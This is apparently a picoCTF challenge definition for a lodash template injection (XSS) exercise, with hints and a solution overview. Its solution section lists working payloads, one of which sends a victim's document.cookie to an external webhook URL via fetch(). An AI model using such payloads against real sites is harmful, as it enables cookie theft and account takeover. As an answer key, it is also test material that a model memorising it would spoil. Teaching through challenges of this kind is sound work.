 # supply-me-vuln

- Namespace: picoctf/18739f24
- ID: supply-me-vuln
- Type: custom
- Category: Web Exploitation
- Points: 1
- Templatable: yes
- MaxUsers: 1

## Description

The site uses a buggy library! Figure it out and carry out the exploit!


## Details

Browse {{link_as('/', 'here')}}, and find the flag!


## Hints

- How do you determine what library is running behind the scene?
- Can you get its version?

## Solution Overview

- Install library detector extension on your browser and detect the library being used
- some of them provides the version of the library, if not, since the target library is lodash, we can print the version out with _.VERSION
- By searching online we know that lodash 4.17.20 has a code injection vulnerability in its template function
- Inspect the behavior and given source code of the function `pass_val`, combined with the lodash template usage to build up a XSS payload
- carry out the attack to get the flag saved in document.cookie of another user, use a self-host server to get the 
  redirected request

- benign input: {"arg1":"user", "arg2": {"name": "Alice", "pet": "dog"}}
- exploit: {"arg1":"){alert(\"hi\")}; with(obj", "arg2": {"name": "Alice", "pet": "dog"}}
- cookie exploit for remote server: {"arg1":"){cookie=document.cookie;fetch('https://webhook.site/c0d4620e-9448-4793-8dd6-06caefb0ddc8?cookie='+cookie)}; with(obj", "arg2": {"name": "Alice", "pet": "dog"}}
- testing: {"arg1":"){console.log(document.cookie);}; with(obj", "arg2": {"name": "Alice", "pet": "dog"}}

## Challenge Options

```yaml
cpus: 0.5
memory: 128m
pidslimit: 20
ulimits:
  - nofile=128:128
diskquota: 64m
init: true
```

## Learning Objective

- Get to know about the supply chain attacks

## Attributes

- author: Ian Lin
- organization: picoCTF
- event: picoCTF Problem Developer Training
